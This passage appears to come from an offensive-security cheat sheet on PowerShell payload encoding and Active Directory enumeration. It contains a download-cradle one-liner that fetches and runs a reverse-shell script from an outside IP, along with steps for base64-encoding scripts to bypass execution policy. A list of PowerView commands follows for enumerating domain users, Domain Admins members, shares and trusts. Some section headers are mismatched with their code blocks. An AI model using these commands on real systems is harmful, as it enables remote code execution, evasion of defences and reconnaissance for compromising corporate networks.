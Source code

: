 ```
echo 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")' | iconv -t utf-16le | base64 -w 0
```

### Bash

#### Encode existing script, copy to clipboard:

```powershell
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('c:\path\to\PowerView.ps1')) | clip
```

### PowerShell

### Run it, bypassing execution policy.

```powershell
Powershell -EncodedCommand $encodedCommand
```

### PowerShell

> If you have Nishang handy, you can use [Invoke-Encode.ps1](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1).

### Enumeration <a href="#enumeration" id="enumeration"></a>

#### AD Enumeration With PowerView <a href="#ad-enumeration-with-powerview" id="ad-enumeration-with-powerview"></a>

PowerView is available [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
# Get all users in the current domain
Get-DomainUser | select -ExpandProperty cn

# Get all computers in the current domain
Get-DomainComputer

# Get all domains in current forest
Get-ForestDomain

# Get domain/forest trusts
Get-DomainTrust
Get-ForestTrust

# Get information for the DA group
Get-DomainGroup "Domain Admins"

# Find members of the DA group
Get-DomainGroupMember "Domain Admins" | select -ExpandProperty membername

# Find interesting shares in the domain, ignore default shares, and check access
Find-DomainShare -ExcludeStandard -ExcludePrint -ExcludeIPC -CheckShareAccess

# Get OUs for current domain
Get-DomainOU -FullData

# Get computers in an OU
# %{} is a looping statement
Get-DomainOU -name Servers | %{ Get-DomainComputer -SearchBase $_.distinguishedname } | select dnshostname

```